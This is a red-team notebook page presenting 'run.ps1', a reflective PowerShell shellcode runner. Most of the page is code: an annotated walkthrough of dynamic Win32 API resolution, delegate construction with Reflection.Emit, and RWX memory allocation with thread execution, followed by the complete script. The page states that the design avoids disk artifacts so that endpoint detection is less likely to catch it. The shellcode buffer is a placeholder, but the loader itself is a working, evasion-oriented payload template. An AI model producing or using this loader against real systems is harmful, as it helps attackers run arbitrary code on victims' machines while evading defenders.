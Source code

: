 ```yaml
---
aliases:
  - run.ps1
tags:
  - 💣Payload
primary categories:
  - "[[Development]]"
  - "[[Penetration Test]]"
  - "[[Red Team]]"
secondary categories:
  - "[[PowerShell]]"
  - "[[Weaponization]]"
  - "[[Payload Engineering]]"
type: Payload
---
```

# [[Reflective PowerShell Shellcode Runner]]

***

## Overview

This reflective PowerShell shellcode runner template provides a stealthier alternative to traditional in-memory payload delivery by avoiding the use of disk-backed artifacts. A common method of executing unmanaged code in PowerShell is through the `Add-Type` cmdlet, which compiles and stores .NET assemblies to disk—a behavior that can trigger detection from endpoint monitoring tools. In contrast, this template performs all operations entirely in memory, eliminating the reliance on Add-Type and minimizing forensic evidence. This payload template is largely based on [`run.ps1`](https://gist.github.com/braaaax/41789bad5d07b8ba236299047a774ffa) by [_braaaax_](https://github.com/braaaax).

The payload follows a three-step reflective injection process, all without relying on `Add-Type` or writing any assemblies to disk:

### 1. Dynamic Win32 API Resolution

Using .NET reflection, the script locates function pointers for native Win32 APIs like `VirtualAlloc`, `CreateThread`, and `WaitForSingleObject` by querying loaded modules and calling `GetProcAddress`:

```powershell
# Function to dynamically resolve the address of a Win32 API function in memory
function LookupFunc {
        Param ($moduleName, $functionName)

		# Get the 'UnsafeNativeMethods' type from the loaded System.dll assembly
        $assem = ([AppDomain]::CurrentDomain.GetAssemblies() |
				    Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }
				    ).GetType('Microsoft.Win32.UnsafeNativeMethods')
	    
	    $tmp=@()

		# Filter out the 'GetProcAddress' method
	    $assem.GetMethods() | ForEach-Object {
		    If($_.Name -eq "GetProcAddress") {$tmp+=$_}
		}

		# Invoke GetProcAddress(GetModuleHandle($moduleName), $functionName)
        return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null, @($moduleName)), $functionName))
}
```

### 2. Delegate Construction for API Invocation

Since .NET requires strong typing for API calls, the script uses `System.Reflection.Emit` to define method signatures at runtime. This allows for calling unmanaged APIs using the correct parameter and return types:

```powershell
# Function to dynamically generate a delegate type for a given API function signature
function getDelegateType {
        Param (
            [Parameter(Position = 0, Mandatory = $True)] [Type[]] $func,
            [Parameter(Position = 1)] [Type] $delType = [Void]
        )

		# Define a dynamic in-memory assembly to hold the delegate type
        $type = [AppDomain]::CurrentDomain.DefineDynamicAssembly(
			        (New-Object System.Reflection.AssemblyName('ReflectedDelegate')),
			        [System.Reflection.Emit.AssemblyBuilderAccess]::Run
			        ).DefineDynamicModule('InMemoryModule', $false).DefineType(
				        'MyDelegateType', 
				        'Class, Public, Sealed, AnsiClass, AutoClass',
				        [System.MulticastDelegate]
				    )

		# Define the constructor required for a delegate type
		$type.DefineConstructor('RTSpecialName, HideBySig, Public',
								[System.Reflection.CallingConventions]::Standard,
								$func).SetImplementationFlags('Runtime, Managed')

		# Define the 'Invoke' method for the delegate (used to call the function)
		$type.DefineMethod('Invoke',
							'Public, HideBySig, NewSlot, Virtual',
							$delType,
							$func).SetImplementationFlags('Runtime, Managed')

		# Create and return the delegate type
        return $type.CreateType()
}
```

### 3. Allocate Memory, Inject Shellcode, and Invoke Execution

With the shellcode hard coded in a byte array, the script allocates *RWX* memory, copies the payload into it, and creates a new thread to execute it. The entire process is conducted using delegates and Win32 APIs resolved in-memory:

```powershell
# Replace this with actual shellcode bytes
[Byte[]] $buf = <shellcode-buffer-byte-array>

# Allocate memory
$lpMem = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer(
	(LookupFunc kernel32.dll VirtualAlloc),
	(getDelegateType @([IntPtr], [IntPtr], [UInt32], [UInt32]) ([IntPtr]))
	).Invoke([IntPtr]::Zero, $buf.length, 0x3000, 0x40)

# Copy shellcode into allocated memory
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $lpMem, $buf.length)

# Execute shellcode in new thread
$hThread = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer(
	(LookupFunc kernel32.dll CreateThread), 
	(getDelegateType @([IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr]) ([IntPtr]))
	).Invoke([IntPtr]::Zero,0,$lpMem,[IntPtr]::Zero,0,[IntPtr]::Zero)

# Wait for thread to complete
[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll WaitForSingleObject), (getDelegateType @([IntPtr], [Int32]) ([Int]))).Invoke($hThread, 0xFFFFFFFF)
```

## File Contents

### `run.ps1`

```powershell
function LookupFunc {
        Param ($moduleName, $functionName)

        $assem = ([AppDomain]::CurrentDomain.GetAssemblies() |
				    Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }
				    ).GetType('Microsoft.Win32.UnsafeNativeMethods')
	    
	    $tmp=@()

	    $assem.GetMethods() | ForEach-Object {
		    If($_.Name -eq "GetProcAddress") {$tmp+=$_}
		}

        return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null, @($moduleName)), $functionName))
}

function getDelegateType {
        Param (
            [Parameter(Position = 0, Mandatory = $True)] [Type[]] $func,
            [Parameter(Position = 1)] [Type] $delType = [Void]
        )

        $type = [AppDomain]::CurrentDomain.DefineDynamicAssembly(
			        (New-Object System.Reflection.AssemblyName('ReflectedDelegate')),
			        [System.Reflection.Emit.AssemblyBuilderAccess]::Run
			        ).DefineDynamicModule('InMemoryModule', $false).DefineType(
				        'MyDelegateType', 
				        'Class, Public, Sealed, AnsiClass, AutoClass',
				        [System.MulticastDelegate]
				    )

		$type.DefineConstructor('RTSpecialName, HideBySig, Public',
								[System.Reflection.CallingConventions]::Standard,
								$func).SetImplementationFlags('Runtime, Managed')

		$type.DefineMethod('Invoke',
							'Public, HideBySig, NewSlot, Virtual',
							$delType,
							$func).SetImplementationFlags('Runtime, Managed')

        return $type.CreateType()
}

[Byte[]] $buf = <shellcode-buffer-byte-array>

$lpMem = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer(
	(LookupFunc kernel32.dll VirtualAlloc),
	(getDelegateType @([IntPtr], [IntPtr], [UInt32], [UInt32]) ([IntPtr]))
	).Invoke([IntPtr]::Zero, $buf.length, 0x3000, 0x40)

[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $lpMem, $buf.length)

$hThread = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer(
	(LookupFunc kernel32.dll CreateThread), 
	(getDelegateType @([IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr]) ([IntPtr]))
	).Invoke([IntPtr]::Zero,0,$lpMem,[IntPtr]::Zero,0,[IntPtr]::Zero)

[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll WaitForSingleObject), (getDelegateType @([IntPtr], [Int32]) ([Int]))).Invoke($hThread, 0xFFFFFFFF)
```

***

## Resources

| Hyperlink                                                                              | Info                                     |
| -------------------------------------------------------------------------------------- | ---------------------------------------- |
| [_braaax_/`run.ps1`](https://gist.github.com/braaaax/41789bad5d07b8ba236299047a774ffa) | GitHub Gist page for payload by *braaax* |

***

*Created Date*: <%+tp.file.creation_date("MMMM Do YYYY (HH:mm a)")%>  
*Last Modified Date*: <%+tp.file.last_modified_date("MMMM Do YYYY (HH:mm a)")%>
